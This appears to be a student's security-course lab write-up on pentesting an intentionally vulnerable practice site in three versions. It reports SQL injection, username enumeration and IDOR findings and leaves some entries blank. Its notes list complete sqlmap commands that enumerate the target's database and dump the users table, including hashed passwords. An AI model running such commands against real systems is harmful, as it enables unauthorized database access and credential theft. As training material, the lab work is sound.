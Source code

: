 # Project 8 - Pentesting Live Targets

Time spent: **20** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

IP Address: https://104.197.43.145

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQLi - The id parameter is unsanitized and escapable on the salepeople page.

GIF Walkthrough: <img src='http://i.imgur.com/qaOIRtL.gif' />

Vulnerability #2: __________________


## Green

Vulnerability #1: Username Enumeration - Error message switches between bold and regular depending if username exists or not.

GIF Walkthrough: <img src='http://i.imgur.com/UYoccrU.gif' />

Vulnerability #2: __________________


## Red

Vulnerability #1: IDOR - Hidden salespeople ids are accessible

GIF Walkthrough: <img src='http://i.imgur.com/lnQoU8t.gif' />

Vulnerability #2: __________________


## Notes

Describe any challenges encountered while doing the work

Could not do XSS, CSRF, or Session Hijacking/Fixation due to the exploits requring admin login. The hashed passwords were obtained from the database using sqlmap but the passwords are salted. The default Sqlmap version was also outdated and didn't work; had to install updated version from the official github link.

Sqlmap Installation Command:

```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
``` 

*Note: Must navigate to the "sqlmap-dev" directory before executing the following command.

Sqlmap Command - Get databases from host 104.197.43.145: 

```
python2 sqlmap.py --url 'https://104.197.43.145/blue/public/salesperson.php?id=1' --cookie='security=low; PHPSESSID=5d1dmfg3ak225m3kmam8qkkat2' --dbs
```

Sqlmap Command - Get tables from database "globitek_blue":

```
python2 sqlmap.py --url 'https://104.197.43.145/blue/public/salesperson.php?id=1' --tables -D globitek_blue

```

Sqlmap Command - Get columns from table "users":

```
python2 sqlmap.py --url 'https://104.197.43.145/blue/public/salesperson.php?id=1' --columns -D globitek_blue -T users
```

Sqlmap Command - Dump table "users":

```
python2 sqlmap.py --url 'https://104.197.43.145/blue/public/salesperson.php?id=1' --dump -D globitek_blue -T users
```

Sqlmap Command - Dump column "hashed_password" from table "users":

```
python2 sqlmap.py --url 'https://104.197.43.145/blue/public/salesperson.php?id=1' --dump -D globitek_blue -T users -C hashed_password
```

GIF Walkthrough: <img src='http://i.imgur.com/6NCLBA1.gif' />